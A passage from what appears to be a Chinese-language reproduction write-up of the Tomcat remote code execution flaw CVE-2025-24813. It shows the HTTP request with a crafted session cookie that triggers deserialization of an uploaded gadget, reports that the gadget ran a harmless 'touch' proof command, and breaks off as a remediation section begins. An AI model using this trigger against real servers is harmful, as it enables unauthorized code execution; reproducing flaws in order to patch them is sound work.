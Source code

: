 ```
GET / HTTP/1.1
Host: your-ip:8080
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.6788.76 Safari/537.36
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=.poc
```

![](images/Tomcat%20远程代码执行漏洞%20CVE-2025-24813/image-20250317141703769.png)

CommonsCollectionsK1 gadget 被成功序列化，执行了 `touch /tmp/awesome_poc` 命令：

![](images/Tomcat%20远程代码执行漏洞%20CVE-2025-24813/image-20250317141811798.png)

## 漏洞修复

### 临时缓解方案

如果暂时无法升级，可以采取以下临时措施降低风险：
